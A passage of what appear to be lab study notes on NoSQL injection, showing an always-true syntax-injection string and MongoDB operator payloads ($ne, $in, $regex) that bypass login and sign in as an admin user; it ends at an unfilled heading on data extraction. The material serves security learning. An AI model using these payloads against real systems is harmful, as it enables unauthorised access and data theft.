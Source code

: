 The following payload will cause the app to return everything from the database, as the injected payload is a condition that will always evaluate to True:

```bash
category=Accessories'||'1'=='1
```

On contrast, the following payload evaluates to False:

```bash
category=Accessories'||'1'=='2
```
# NoSQL Operator Injection

NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result. Examples of MongoDB query operators include:

- $where - matches documents that satisfy a JS expression
- $ne - matches all values that are not equal to a specified value
- $in - matches all of the values specified in an array
- $regex - selects documents where values match a specified regular expression

To submit query operators, you can do it via JSON messages:

```json
{"username":"wiener"}
{"username":{"$ne":"invalid"}}
```

Or URL-based inputs:

```bash
username=wiener
username[$ne]=invalid
```

If both the username and password inputs processes the operator, it may be possible to bypass authentication using the following payload:

```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```
# Exploiting NoSQL Operator Injection to Bypass Authentication

The following payload will match a username that begins with the word "admin" and where the password field does not equal to invalid, this will log us into the app as the admin user. The username name for the admin user was "admin4ygjye2f" which is why regex was needed to solve the challenge.

```json
{
	"username":{
		"$regex":"admin.*"
	},
	"password":{
		"$ne":"invalid"
	}
}
```
# Exploring Syntax Injection to Extract Data
